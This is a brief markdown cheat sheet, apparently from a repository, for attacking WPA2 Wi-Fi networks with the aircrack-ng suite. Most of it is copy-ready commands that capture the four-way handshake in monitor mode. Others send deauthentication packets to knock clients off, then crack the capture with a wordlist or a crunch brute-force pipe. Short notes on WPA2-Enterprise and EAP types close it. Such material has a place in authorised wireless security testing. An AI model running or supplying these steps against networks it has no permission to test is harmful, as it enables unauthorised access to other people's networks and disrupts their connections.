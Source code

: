 ### general information
```
4 way handshake for authentiation
every user get single session (Pairwise Transient key - PTK, calculated from Pairwise Master Key - PMK)
replay protected
```

### capture hanshake
```
airmon-ng check
airmon-ng check kill
airmon-ng start <interface>
airodump-ng <interface> --bssid <bssid> --channel <channel> --write <file>
```

### if there are some problems starting the interface you can try:
```
rfkill unblock all
```

### send deauthenticate packets
```
aireplay-ng --deauth 5 -a <bssid> <interface>
```
 
### crack captured handshake using wordlist
```
aircrack-ng <file>.cap -w <wordlist>
```

### bruteforce captured handshake
```
crunch 8 10 [a-z;A-Z;0-9] | aircrack-ng <file>.cap -b <bssid> -w-
```
 
### general information about WPA2-Enterprise
```
No global key
Radius server used for authentication
```

### EAP-Types (without outer tunnel):
```
EAP-MD5
EAP-LEAP
```

### EAP-Types (with outer tunnel):
```
EAP-FAST
PEAP
EAP-TLS
```

